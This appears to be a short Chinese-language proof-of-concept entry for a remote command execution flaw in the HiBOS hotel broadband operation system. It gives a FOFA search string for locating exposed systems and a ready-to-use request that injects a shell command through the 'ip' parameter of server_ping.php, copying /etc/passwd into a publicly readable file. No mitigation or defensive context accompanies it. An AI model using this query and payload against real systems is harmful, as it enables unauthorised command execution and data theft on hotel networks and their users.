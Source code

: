 ## HiBOS酒店宽带运营系统RCE漏洞

## 漏洞描述

HiBOS酒店宽带运营系统存在RCE漏洞，攻击者可以通过此漏洞执行任意命令。

## 漏洞影响

> HiBOS酒店宽带运营系统

## FOFA

> body="酒店宽带运营系统"

## POC

登录界面如下

![1](resource/HiBOS酒店宽带运营系统RCE漏洞/1.jpg) 

##POC

执行命令输出etc/password内容到mb.txt

```
http://xx.xx.xx.xx/manager/radius/server_ping.php?ip=127.0.0.1|cat /etc/passwd >../../mb.txt&id=1
```

![2](resource/HiBOS酒店宽带运营系统RCE漏洞/2.jpg)

然后访问http://xx.xx.xx.xx/mb.txt就可以看到了